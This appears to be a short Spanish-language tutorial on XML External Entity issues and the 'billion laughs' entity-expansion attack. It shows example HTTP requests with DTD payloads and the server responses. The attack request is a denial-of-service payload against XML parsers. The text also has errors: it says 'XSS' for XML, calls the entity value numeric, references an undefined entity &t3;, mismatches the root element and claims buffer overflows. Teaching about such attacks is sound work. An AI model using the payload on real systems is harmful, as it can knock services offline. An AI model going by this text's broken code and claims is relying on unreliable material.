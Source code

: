 Los documentos XSS pueden tener tipos especificos definidos por dos estandares: `-XSD` y `DTD`

Los documentos definidos con `DTD` son `vulnerables` a `XXE`. 

El siguiente ejemplo utiliza una `DTD` llamada `mytype`. Esta `DTD` `define una entidad XML` llamada `name`. Cuando este elemento es `llamado en el output`, el analizador de sintaxis (parser) de XML `lee el DTD` y `lo replaca por un valor numérico`. 

```
|                   Request                   |
|---------------------------------------------|
| POST http://example.com/xml HTTP/1.1        |
|                                             |
| <?xml version="1.0" encoding="ISO-8859-1"?> |
| <!DOCTYPE mytype [                          |
| <!ELEMENT mytype ANY>                       |
| <!ENTITY name "John">                       |
| ]>                                          |
| <mytype>                                    |
| Hello &name; and welcome to my website!     |
| </mytype>                                   |
```

```
|                  Response                   |
|---------------------------------------------|
| HTTP/1.0 200 OK                             |
|                                             |
| Hello John and welcome to my website!       |
```

Ahora vamos a ver como en base a esto podemos hacer el ataque `billion laughs attack` si el analizador de sintaxsis (parser) de XML `no limita la cantidad de memoria` que puede utilizar, este ataque es una `técnica recursiva para sobrecargar la memoria` de la web víctima. Asi podemos hacer `denegaciones de servicio` y `buffer overflows`.

```
|                      Request                      |
|---------------------------------------------------|
| POST http://example.com/xml HTTP/1.1              |
|                                                   |
| <?xml version="1.0" encoding="ISO-8859-1"?>       |
| <!DOCTYPE mytype [                                |
| <!ELEMENT mytype ANY>                             |
| <!ENTITY name "John ">                            |
| <!ENTITY name2 "&name;&name;">                    |
| <!ENTITY name3 "&name2;&name2;&name2;&name2;">    |
| <!ENTITY name4 "&name3;&name3;&name3;&name3;">]>  |
| <foo>                                             |
| Hello &t3;                                        |
| </foo>                                            |
```

```
|                                   Response                                   |
|------------------------------------------------------------------------------|
| Response                                                                     |
| HTTP/1.0 200 OK                                                              |
|                                                                              |
| Hello John John John John John John John John John John John John John John  |
| John John John John John John John John John John John John John John John   |
| John John John John John John John John John John John John John John        |
```
